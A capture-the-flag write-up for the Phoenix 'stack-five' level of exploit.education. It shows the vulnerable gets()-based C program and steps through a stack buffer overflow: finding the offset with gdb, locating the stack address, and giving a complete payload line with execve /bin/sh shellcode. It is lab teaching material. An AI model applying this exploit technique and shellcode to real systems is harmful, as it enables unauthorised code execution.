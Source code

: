 # STACK FIVE

## SOURCE CODE

```
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

## STRATEGY
First of all we need to determine how many bytes we have to overwrite before the return address, then we can proceed determining the return address for jump at our shellcode and finally we can craft our payload and pwn the challnge! 


## EXPLOIT

1. Open gdb, break at start_level (function with gets, our injection point) and run, then we can use pattern ```pattern create 150``` for create sequence of characters, copy the output, step the program and use the pattern generated as input for gets; now stepping at return instruction and examinating the stack-pointer we can see how characters have overwritten the return address. With ```pattern offset kaablaabma``` we can retrive how many bytes we need to fill with junk until the return address .
![stack-five_0](https://github.com/Apollo3000/Exploit-education-Writeup/blob/master/Phoenix/i486/img/stack-five/stack-five_0.png)
In this case 140 bytes.

2. Now to determine the address of our shellcode we can craft an example payload with 140 "A" and 4 "B" as fake ret address with ```python -c 'print "A"*140 + "B"*4' | ./stack-five```
and examine the segmentation fault error with ```sudo dmesg |tail -n1``` to see SP (stack pointer) address

![stack-five_1](https://github.com/Apollo3000/Exploit-education-Writeup/blob/master/Phoenix/i486/img/stack-five/stack-five_1.png)

3. Last thing we need is a Linux x86 execve /bin/sh shellcode, for example http://shell-storm.org/shellcode/files/shellcode-752.php

4. ```(python -c 'import struct; print "A"*140 + struct.pack("I", 0xffffd640) + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"';cat) | ./stack-five```
